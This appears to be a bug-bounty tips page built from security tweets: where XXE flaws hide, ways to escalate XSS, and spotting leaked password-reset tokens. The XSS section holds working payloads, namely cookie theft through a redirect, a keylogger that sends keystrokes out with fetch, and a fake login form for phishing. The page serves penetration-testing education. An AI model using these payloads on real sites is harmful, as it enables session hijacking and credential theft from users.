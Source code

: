 Source: https://twitter.com/Bugcrowd/status/1342184648856616972

```
XXE's are still quite common, and they're usually a P1! 
Here are places that you can look for them:

1. Uploading Open XML documents such as MS Offics docs (docx, xlsx, pptx). They're all just zip files filled with XML files. If these documents get parsed on the server-side, there's a chance that they will also parse external entities within those files.

2. Functionality that parses RSS feeds (they're XML too!)

3. Functionality that parses HTML (for example, converting HTML to PDF)

4.  Functionality that parses sitemap.xml files.

5. SAML requests.

6. Content-Type with application/json can also be replaced with application/xml. Many parsers support that.

7. SVG files (if they get parsed in some way on the server)
```

## Escalating XSS

Source: https://twitter.com/Bugcrowd/status/1339417608169222145

```
Here are a few ways to make the most of an XSS.

1. Grab the victim's cookies by redirecting to an attacker's server and appending the cookie value, e.g. document.location='bugcrowd.com/?'+document.cookie

2. Perform a sensitive action as the victim user (such as changing their password or email address). Having an XSS allows you to bypass SOP and Anti-CSRF mechanisms. See here for some payloads + inspiration: https://github.com/hakluke/weaponised-XSS-payloads

3. Plant a JavaScript keylogger (from https://github.com/swisskyrepo/PayloadsAllTheThings)
<img src=x onerror='document.onkeypress=function(e){fetch("http://bugcrowd.com/?k="+String.fromCharCode(e.which))},this.remove();'>

4. Redress the window with a fake HTML login form to phish credentials: document.body.innerHTML = "<form action='https://bugcrowd.com'><input type='text' value='email' name='email'><input type='password' value='password' name='password'><input type='submit'></form>"
```

## Find Leaky Password Reset Tokens

Source: https://twitter.com/hakluke/status/1300392121065594881

```
Try this when testing webapps:

1. Set up burp in browser1
2. Do a password reset request in browser1
3. Open the password reset email in browser2 and copy the token
4. Search your Burp history for the token, if it is there, you've got yourself a nice easy account takeover!
```
